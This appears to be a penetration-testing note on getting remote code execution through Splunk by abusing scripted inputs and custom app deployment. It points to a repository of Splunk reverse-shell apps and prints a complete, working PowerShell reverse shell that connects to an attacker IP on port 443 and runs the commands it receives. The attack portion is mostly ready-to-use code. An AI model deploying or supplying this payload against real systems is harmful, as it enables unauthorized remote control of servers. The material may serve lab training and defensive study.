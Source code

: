 * If access is gained:

  * Browse indexed data
  * Install apps from Splunkbase
  * Create **scripted inputs** (common RCE path)

    * Bash, PowerShell, Batch, or Python scripts supported
    * Run reverse shells via scripted input

* **Python always available** on Splunk installations

* **Scripted Input Path**:

  * Installed as part of Splunk's modular inputs
  * Runs code and feeds `stdout` as log data

---

# 🛠️ Attacking Splunk via Custom Applications

## 🎯 Objective

Leverage Splunk’s app deployment system to achieve **Remote Code Execution (RCE)** using built-in scripting capabilities such as **Python** or **PowerShell**.
```
git clone https://github.com/0xjpuff/reverse_shell_splunk.git
```

## 🧰 Key Splunk Directory Structure

```
splunk_shell/
├── bin              # Contains scripts (PowerShell, Python, etc.)
└── default          # Contains configuration file (inputs.conf)
```

## 📜 PowerShell Reverse Shell Example

```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.15',443);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
  $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
  $sendback = (iex $data 2>&1 | Out-String );
  $sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';
  $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
  $stream.Write($sendbyte,0,$sendbyte.Length);
  $stream.Flush()
};
$client.Close()
```
